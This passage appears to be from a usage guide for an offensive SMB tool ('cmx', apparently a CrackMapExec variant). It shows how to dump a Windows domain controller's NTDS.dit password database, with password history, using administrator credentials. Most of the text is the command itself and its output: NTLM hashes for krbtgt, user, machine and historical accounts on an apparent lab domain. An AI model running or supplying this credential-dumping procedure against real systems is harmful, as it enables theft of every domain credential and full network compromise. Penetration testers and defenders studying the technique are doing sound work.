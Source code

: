 ```
Aug.20.19 15:56:44  SMB         10.10.33.100:445  10.10.33.100 krbtgt:502:aad3b435b51404eeaad3b435b51404ee:196ced39f728b80790127de587b8d8ee:::                   
Aug.20.19 15:56:45  SMB         10.10.33.100:445  10.10.33.100 ocean.depth\agrande:1104:aad3b435b51404eeaad3b435b51404ee:bbc2bf2fbca9dd9ed74d3c1b55e3d727:::     
Aug.20.19 15:56:45  SMB         10.10.33.100:445  10.10.33.100 testuser:1121:aad3b435b51404eeaad3b435b51404ee:86673aaff536236dd926c9af42642044:::                
Aug.20.19 15:56:45  SMB         10.10.33.100:445  10.10.33.100 ringo:1122:aad3b435b51404eeaad3b435b51404ee:bbc2bf2fbca9dd9ed74d3c1b55e3d727:::                   
Aug.20.19 15:56:45  SMB         10.10.33.100:445  10.10.33.100 FdBChukYpb:1123:aad3b435b51404eeaad3b435b51404ee:1074d4d3b4de771fa1220899072fe02d:::              
Aug.20.19 15:56:45  SMB         10.10.33.100:445  10.10.33.100 ocean.depth\tswift:1126:aad3b435b51404eeaad3b435b51404ee:bbc2bf2fbca9dd9ed74d3c1b55e3d727:::      
Aug.20.19 15:56:45  SMB         10.10.33.100:445  10.10.33.100 DC2012-A$:1001:aad3b435b51404eeaad3b435b51404ee:40370f29863afcaa7598ca0b2475f942:::               
Aug.20.19 15:56:45  SMB         10.10.33.100:445  10.10.33.100 WIN7E-PC$:1105:aad3b435b51404eeaad3b435b51404ee:2d3b04ef5f2dee295d2ba35ab55e2147:::

```

------------------------------------------------------------------------
### \*\*\*Dump the NTDS.dit password history from target DC using methods from secretsdump.py   
You can also grab the history by adding the ntds-history switch after ntds.   
The output contains the hash(es) and user_history hash(es) of the previous passwords.  
History hashes are noted with a number to tell you how far back the password was used.  

You need to use both ntds and the ntds-history switch together.  
```
#~ cmx smb 10.10.33.100 -u Administrator -p AdminSuper\!23 --ntds --ntds-history

Aug.20.19 16:00:00  SMB         10.10.33.100:445  10.10.33.100 [*] Windows Server 2012 R2 Datacenter 9600 x64 (domain:OCEAN) (signing:True) (SMBv:1)
Aug.20.19 16:00:00  SMB         10.10.33.100:445  10.10.33.100 [+] OCEAN\Administrator:AdminSuper!23 (Pwn3d!)
Aug.20.19 16:00:00  SMB         10.10.33.100:445  10.10.33.100 [+] Dumping the NTDS, this could take a while so go grab a redbull...
Aug.20.19 16:00:00  SMB         10.10.33.100:445  10.10.33.100 Administrator:500:aad3b435b51404eeaad3b435b51404ee:aef8db238cf09c4744b7b2a26277189b:::
Aug.20.19 16:00:00  SMB         10.10.33.100:445  10.10.33.100 Administrator_history0:500:aad3b435b51404eeaad3b435b51404ee:1c493696a7a1771b071080bf8cbc68c6:::
Aug.20.19 16:00:00  SMB         10.10.33.100:445  10.10.33.100 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Aug.20.19 16:00:00  SMB         10.10.33.100:445  10.10.33.100 krbtgt:502:aad3b435b51404eeaad3b435b51404ee:196ced39f728b80790127de587b8d8ee:::
Aug.20.19 16:00:01  SMB         10.10.33.100:445  10.10.33.100 DC2012-A$:1001:aad3b435b51404eeaad3b435b51404ee:40370f29863afcaa7598ca0b2475f942:::
Aug.20.19 16:00:01  SMB         10.10.33.100:445  10.10.33.100 DC2012-A$_history0:1001:aad3b435b51404eeaad3b435b51404ee:17738b00d494f35643af0808e507e236:::
Aug.20.19 16:00:01  SMB         10.10.33.100:445  10.10.33.100 DC2012-A$_history1:1001:aad3b435b51404eeaad3b435b51404ee:e5fb417d2e99a11af210451cbb804f1d:::
Aug.20.19 16:00:01  SMB         10.10.33.100:445  10.10.33.100 DC2012-A$_history2:1001:aad3b435b51404eeaad3b435b51404ee:a16a596a99d5ee38ba2f33ee85fab318:::
Aug.20.19 16:00:01  SMB         10.10.33.100:445  10.10.33.100 DC2012-A$_history3:1001:aad3b435b51404eeaad3b435b51404ee:b76ca93715f34c0020e7246d715fed64:::
Aug.20.19 16:00:01  SMB         10.10.33.100:445  10.10.33.100 DC2012-A$_history4:1001:aad3b435b51404eeaad3b435b51404ee:7cb7bcaf56e331d91081de73b88e3c6f:::
Aug.20.19 16:00:01  SMB         10.10.33.100:445  10.10.33.100 DC2012-A$_history5:1001:aad3b435b51404eeaad3b435b51404ee:dca9c242481691b6227a78aa8be3ed1e:::
```
